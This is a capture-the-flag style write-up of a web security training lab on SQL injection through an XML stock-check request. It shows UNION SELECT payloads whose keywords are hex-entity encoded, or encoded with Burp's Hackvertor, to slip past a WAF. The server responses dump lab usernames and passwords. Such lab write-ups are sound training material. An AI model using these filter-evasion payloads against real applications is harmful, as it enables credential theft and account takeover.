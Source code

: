 # Lab: SQL injection with filter bypass via XML encoding
This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

## Filter bypass via XML encoding
The application has a SQL injection vulnerability via XML. But it also uses a WAF (Web Application Firewall). So the learning goal in this lab is to bypass the filter of the firewall to inject a query via the XML request. One approach is to obfuscate the query.

## Solution
As mentioned before, the application has a stock check feature, which is vulnerable:

![Check stock](images/sql_injection_with_filter_bypass_via_xml_encoding_0.png)

If we take a look at the HTTP traffic via Burp Proxy, we can see a POST request for resolving the stock check using XML:

![POST Request](images/sql_injection_with_filter_bypass_via_xml_encoding_1.png)

With a valid request, like shown, the application shows how many units are in stock.

The values `productId` and `storeId` are probably processed in a SQL statement. So we can test if a simple injection will work:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 union select null
        </storeId>
    </stockCheck>
```
As a response we get:
```
"Attack detected"
```

The response took place because of the WAF, which is detecting the SQL keywords and filtering the query out.

To bypass the query we can try to add the hex entities of the characters, so the filter won't detect SQL statements anymore:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 &#x75;nion &#x73;elect null
        </storeId>
    </stockCheck>
```
```
204 units
null
```

In the result we can see, that the query was executed. The server decodes the hex value of the ASCII character and executes the query afterwards.

From now on it is pretty simple to build a query that uses a UNION attack to get data from the 'users' table. We just have to slightly obfuscate the SQL keywords. For example we can use the following query:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 &#x75;nion &#x73;elect password &#x66;rom users &#x77;here username=&#x27;administrator&#x27;
        </storeId>
    </stockCheck>
```
Resulting in the following response:
```
204 units
po67rs8f5h6ykdg0br5t
```

We could also use this payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 &#x75;nion &#x73;elect username || &#x27;..&#x27; || password &#x66;rom users
        </storeId>
    </stockCheck>
```
```
204 units
administrator..po67rs8f5h6ykdg0br5t
carlos..d9rcmrrg0hqyqgan7ltv
wiener..aoftenlenr3jkkoxcaii
```

If we login with the credentials, the lab is solved.

### Hackvertor
Burp Suite has an extension for this use case called 'Hackvertor'. This extension can convert text in place into different encodings.

You can install extensions via the 'BApp Store' under the 'Extensions' tab. If it's installed, you can mark the text that you want to encode, right click it and select 'Extensions' -> 'Hackvertor' -> 'Encode' -> 'hex\_entities':

![Check stock](images/sql_injection_with_filter_bypass_via_xml_encoding_2.png)

Burp than adds the tag `<@hex_entities>`:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 <@hex_entities>union select username || '..' || password from users<@/hex_entities>
        </storeId>
    </stockCheck>
```
And the request results in the same response:
```
204 units
administrator..po67rs8f5h6ykdg0br5t
carlos..d9rcmrrg0hqyqgan7ltv
wiener..aoftenlenr3jkkoxcaii
```

If we take a look at the actual used request, we see the following:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 &#x75;&#x6e;&#x69;&#x6f;&#x6e;&#x20;&#x73;&#x65;&#x6c;&#x65;&#x63;&#x74;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x7c;&#x7c;&#x20;&#x27;&#x2e;&#x27;&#x20;&#x7c;&#x7c;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x66;&#x72;&#x6f;&#x6d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;
        </storeId>
    </stockCheck>
```
This option of Hackvertor converts every character of the query to the hex entity and allows us to bypass the WAF.
